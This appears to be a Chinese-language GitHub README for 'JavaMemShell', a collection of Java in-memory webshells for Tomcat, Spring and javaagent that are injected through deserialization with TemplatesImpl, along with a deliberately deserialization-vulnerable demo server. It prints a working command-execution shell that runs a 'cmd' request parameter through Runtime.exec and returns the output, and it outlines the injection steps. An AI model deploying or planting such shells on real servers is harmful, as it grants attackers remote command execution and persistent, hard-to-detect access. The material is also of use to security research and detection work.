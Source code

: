 ## JavaMemShell
记录总结Java内存马的类型和相关代码示例

## 项目说明

**JavaMemShell**

利用Java反序列化时TemplatesImpl类加载字节码实现的内存马示例

**Server-Demo**

Spring 5.2.3 和Tomcat8服务端的Demo，接受参数进行反序列化，

## Java内存马类型

**tomcat** 

1. Filter型
2. Servlet型
3. Listener型
4. TomcatValue型

**spring**

1. controller型
2. Interceptor型

**javaagent**

1. 文件落地，持久化

## 核心代码

每种类型shell动态注册的执行逻辑在静态代码块中，由于反序列化需要，实现类需要继承`AbstractTranslet`

```java
static {
        try{
            xxx
        }catch (Exception e){
            e.printStackTrace();
        }
    }
```

获取request和response，执行命令并进行回显的逻辑在 `doFilter`，`requestDestroyed` ，`service`等方法中，如有需要自行替换，示例：

```java
public void service(ServletRequest servletRequest, ServletResponse servletResponse) 
                        throws ServletException, IOException {
        HttpServletRequest request = (HttpServletRequest)servletRequest;
        HttpServletResponse response =  (HttpServletResponse)servletResponse;

        String method = request.getMethod();
        if ("GET".equals(method)){
            String cmd = request.getParameter("cmd");
            if (cmd != null){
                Process process = Runtime.getRuntime().exec(cmd);
                Scanner s = new Scanner(process.getInputStream()).useDelimiter("\\a");;
                String output = s.hasNext() ? s.next() : "";
                PrintWriter writer = response.getWriter();
                writer.write(output);
                writer.flush();
                writer.close();
            }
        }
    }
```

## 测试

以springInterceptor内存代码为例，将生成序列化的base64代码发送到服务端

![img](https://cdn.nlark.com/yuque/0/2022/png/21878686/1653798985180-c6672740-00d3-4389-85d9-0e4f73cacb74.png)

执行命令：

![img](https://cdn.nlark.com/yuque/0/2022/png/21878686/1653799203090-f9ad191f-288d-4ecb-8a6d-6fdd0591405e.png)


